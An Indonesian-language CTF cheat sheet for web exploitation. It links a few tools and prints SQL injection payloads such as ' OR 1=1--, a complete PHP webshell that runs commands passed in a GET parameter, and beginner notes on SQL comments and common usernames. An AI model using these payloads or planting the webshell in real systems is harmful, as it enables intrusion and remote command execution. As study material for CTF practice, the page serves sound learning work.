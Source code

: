```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

# Tools Yang Umum Digunakan
Kategori Web Exploitation:
1. [JWT (JSON Web Token)](https://token.dev/)
2. [Deobfuscate Kode JS](https://deobfuscate.io/)

# Kode Penting
SQL Injection
```sql
' OR 1=1--
```

Modified SQL Injection (by me)
```sql
' OR 1=1 OR '1'='1
```
PHP Webshell (Execute Linux Command) dari [joswr1ght](gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

# Catatan Tambahan Untuk Belajar
## Comment Pada SQL
```sql
SELECT * FROM Customers -- WHERE City='Berlin';
```
```sql
/*Select all the columns
of all the records
in the Customers table:*/
SELECT * FROM Customers;
```
```sql
SELECT CustomerName, /*City,*/ Country FROM Customers;
```
## Username yang Umum Digunakan
```admin``` paling umum digunakan.
